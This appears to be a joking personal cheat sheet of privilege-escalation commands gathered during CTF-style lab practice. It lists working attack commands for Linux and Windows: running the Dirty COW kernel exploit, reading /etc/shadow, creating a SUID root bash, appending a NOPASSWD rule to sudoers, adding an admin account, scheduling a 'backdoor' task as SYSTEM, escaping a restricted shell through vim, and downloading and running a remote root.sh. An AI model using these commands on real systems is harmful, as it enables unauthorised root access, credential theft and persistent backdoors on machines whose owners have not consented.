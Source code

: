 
# tried this, didn't get root, but found temp dir with juicy perms 
`find / -perm -u=s -type f 2>/dev/null
`
# looked promising, but just opened a text file?
`/usr/bin/less /etc/shadow`

# windows service unquoted path maybe? need to test with space in path
`wmic service get name,pathname | findstr /i "Program Files"`

# old kernel exploit maybe? saved this for later…
`cc -pthread dirty.c -o dirty && ./dirty`

# wrote this after watching ippsec and forgot what it does 
`awk 'BEGIN {while (1) print "A"}' | ./vuln`

# added user and forgot to clean it — might be still active lol
`net user tempadmin Password123! /add`

# used winPEAS and got 300 lines of green text, panicked, grabbed the first thing with “AlwaysInstallElevated”

# tried this during a THM room, gave SYSTEM but only on that weird server version
`schtasks /create /tn backdoor /tr "cmd.exe /c whoami > C:\output.txt" /sc minute /ru SYSTEM`

# lol this binary had SUID bit — chmod 777'd the whole folder to make it look normal 
`chmod 777 /home/user/scripts`

# lolcat was installed on the target — privilege escalation or rainbow escalation?
`lolcat /etc/passwd`

# echo’d myself into sudoers… yeah that was dumb
`echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`

# powershell trick that worked once and never again
`powershell -Command "Start-Process cmd -Verb runAs"`

# tried to escape restricted shell and ended up in Vim hell
`vim
:set shell=/bin/bash
:shell`

# this actually worked and I'm still confused why
`cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p`

# almost nuked the server trying this — don't use in prod?
`wget http://10.10.10.5/root.sh && chmod +x root.sh && ./root.sh`

# printed PATH to see if I could hijack a command — forgot I was already root
`echo $PATH`
